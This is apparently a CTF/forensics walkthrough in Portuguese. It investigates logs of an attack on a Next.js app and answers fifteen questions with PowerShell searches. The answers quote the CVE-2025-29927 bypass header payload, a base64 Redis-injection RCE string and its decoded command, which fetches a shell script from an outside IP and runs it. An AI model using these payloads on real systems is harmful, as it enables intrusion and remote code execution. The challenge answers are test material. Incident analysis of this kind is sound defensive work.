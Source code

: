 #Difficult : Easy
***
#### Info
Recebemos 5 arquivos de log para fazermos nossas investigações.
![[Pasted image 20250411081020.png]]
***
#### 1 - What version of Next.js is the application using?
Podemos apenas fazer uma pesquisa com `next.js`, assim mostrara também a versão.
```powershell
Select-String -Path *.log -Pattern next.js
```
![[Pasted image 20250411081539.png]]

**Answer: `15.1.0`**
***
#### 2 - What local port is the Next.js-based application running on?
Essas aplicações costumam ser mapeadas em `localhost` para teste ou acesso interno, então podemos filtra por `localhost` para ver o mapeamento.
```powershell
Select-String -Path *.log -Context 5,5 -Pattern localhost
```
![[Pasted image 20250411082147.png]]

**Answer: `3000`**
***
#### 3 - A critical Next.js vulnerability was released in March 2025, and this version appears to be affected. What is the CVE identifier for this vulnerability?
Podemos apenas pesquisa pelo `next.js` neste período.
![[Pasted image 20250411082552.png]]

**Answer: `CVE-2025-29927`**
***
#### 4 - The attacker tried to enumerate some static files that are typically available in the Next.js framework, most likely to retrieve its version. What is the first file he could get?
Podemos pesquisar no arquivo que contém as requisições para a aplicação.
```powershell
Select-String -Path access.log -Pattern "GET.*200"
```
![[Pasted image 20250411084315.png]]

**Answer: `main-app.js`**
***
#### 5 - Then the attacker appears to have found an endpoint that is potentially affected by the previously identified vulnerability. What is that endpoint?
Primeiro pesquisamos e entendemos como essa vulnerabilidade acontece.
![[Pasted image 20250411085629.png]]

Podemos então pesquisar pela `payload`.
```powershell
Select-String -Path *.log -Context 0,0 -Pattern "GET.*middleware:middleware:middleware"
```
![[Pasted image 20250411085847.png]]

**Answer: `/api/bci/analytics`**
***
#### 6 - How many requests to this endpoint have resulted in an "Unauthorized" response?
Como o código `HTTP` de `Unauthorized` é `401` podemos fazer uma pesquisa incluindo esse código.
```powershell
Select-String -Path *.log -Context 0,0 -Pattern "/api/bci/analytics.*401"
```
![[Pasted image 20250411090332.png]]

Poderíamos usar o `Measure-Object` para contar as linhas, mas como são poucas não faz diferença.
```powershell
Select-String -Path *.log -Context 0,0 -Pattern "/api/bci/analytics.*401" | Measure-Object -Line
```

**Answer: `5`**
***
#### 7 - When is a successful response received from the vulnerable endpoint, meaning that the middleware has been bypassed?
Podemos filtrar a primeira requisição com a `payload` que foi feita com secesso.
```powershell
Select-String -Path *.log -Context 0,0 -Pattern "/api/bci/analytics.*200" | Select-Object -First 1
```
![[Pasted image 20250411091511.png]]

**Answer: `2025-04-01 11:38:05`**
***
#### 8 - Given the previous failed requests, what will most likely be the final value for the vulnerable header used to exploit the vulnerability and bypass the middleware?
Analisando essa vulnerabilidade em https://securitylabs.datadoghq.com/articles/nextjs-middleware-auth-bypass/, vejo que a payload usada contém 5 vezes `middleware` como valor.
![[Pasted image 20250411092435.png]]

Entretanto, o atacante tentou com apenas 4 vezes em sua última tentativa.
```powershell
Select-String -Path *.log -Context 0,0 -Pattern "x-middleware-subrequest"
```
![[Pasted image 20250411092515.png]]

**Answer: `x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware`**
***
#### 9 - The attacker chained the vulnerability with an SSRF attack, which allowed them to perform an internal port scan and discover an internal API. On which port is the API accessible?
Podemos filtrar por `port` e excluir as portas que já conhecemos como `3000`.
```powershell
 Select-String -Path *.log -Context 5,5 -Pattern 'port' | Where-Object { $_ -notmatch "3000" }
```
![[Pasted image 20250411093935.png]]

**Answer: `4000`**
***
#### 10 - After the port scan, the attacker starts a brute-force attack to find some vulnerable endpoints in the previously identified API. Which vulnerable endpoint was found?
Podemos ver as requisições feitas pela porta `4000`. Identifiquei que o atacante conseguiu uma `LFI` no endpoint `logs`.
```powershell
Select-String -Path *.log -Context 1,1 -Pattern '4000'
```
![[Pasted image 20250411094617.png]]

**Answer: `/logs`**
***
#### 11 - When the vulnerable endpoint found was used maliciously for the first time?
```powershell
Select-String -Path *.log -Context 1 -Pattern '/logs\?logFile='
```
![[Pasted image 20250411095159.png]]

**Answer: `2025-04-01 11:39:01`**
***
#### 12 - What is the attack name the endpoint is vulnerable to?
A vulnerabilidade que presente é a `LFI(Local File Inclusion)`

**Answer: `Local File Inclusion`**
***
#### 13 - What is the name of the file that was targeted the last time the vulnerable endpoint was exploited?
Podemos ver qual foi a última requisição com ``LFI`` para acharmos o arquivo.
```powershell
Select-String -Path *.log -Context 1 -Pattern '/logs\?logFile='
```
![[Pasted image 20250411095718.png]]

**Answer: `secret.key`**
***
#### 14 - Finally, the attacker uses the sensitive information obtained earlier to create a special command that allows them to perform Redis injection and gain RCE on the system. What is the command string?
Pesquisei por `exec` para ver se achava algum comando que executa comandos no sistema.
```powershell
Select-String -Path *.log -Context 1 -Pattern 'exec'
```
![[Pasted image 20250411100827.png]]

**Answer: `OS_EXEC|d2dldCBodHRwOi8vMTg1LjIwMi4yLjE0Ny9oNFBsbjQvcnVuLnNoIC1PLSB8IHNo|f1f0c1feadb5abc79e700cac7ac63cccf91e818ecf693ad7073e3a448fa13bbb`**
***
#### 15 - Once decoded, what is the command?
Aqui usei um decode de `base64` direto do terminal.
![[Pasted image 20250411101341.png]]

**Answer: `wget http://185.202.2.147/h4Pln4/run.sh -O- | sh`**
***

![[Pasted image 20250411101620.png]]